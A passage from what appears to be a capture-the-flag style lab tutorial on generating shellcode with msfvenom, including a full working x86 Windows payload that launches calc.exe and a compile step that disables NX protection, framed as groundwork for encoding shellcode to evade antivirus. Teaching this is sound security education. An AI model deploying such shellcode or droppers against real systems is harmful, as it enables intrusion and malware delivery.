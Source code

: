 ```shell-session
user@AttackBox$ gcc -g -Wall -z execstack thm.c -o thmx
user@AttackBox$ ./thmx
THM,Rocks!
```

Nice! it works. Note that we compile the C program by disabling the NX protection, which may prevent us from executing the code correctly in the data segment or stack.

Understanding shellcodes and how they are created is essential for the following tasks, especially when dealing with encrypting and encoding the shellcode.


In this task, we continue working with shellcode and demonstrate how to generate and execute shellcode using public tools such as the Metasploit framework.

Generate shellcode using Public Tools

Shellcode can be generated for a specific format with a particular programming language. This depends on you. For example, if your dropper, which is the main exe file, contains the shellcode that will be sent to a victim, and is written in C, then we need to generate a shellcode format that works in C.

The advantage of generating shellcode via public tools is that we don't need to craft a custom shellcode from scratch, and we don't even need to be an expert in assembly language. Most public C2 frameworks provide their own shellcode generator compatible with the C2 platform. Of course, this is so convenient for us, but the drawback is that most, or we can say all, generated shellcodes are well-known to AV vendors and can be easily detected.

We will use Msfvenom on the AttackBox to generate a shellcode that executes Windows files. We will be creating a shellcode that runs the `calc.exe` application.


Generate Shellcode to Execute calc.exe

```shell-session
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f c
No encoder specified, outputting raw payload
Payload size: 193 bytes
Final size of c file: 835 bytes
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
```
Shellcode injection
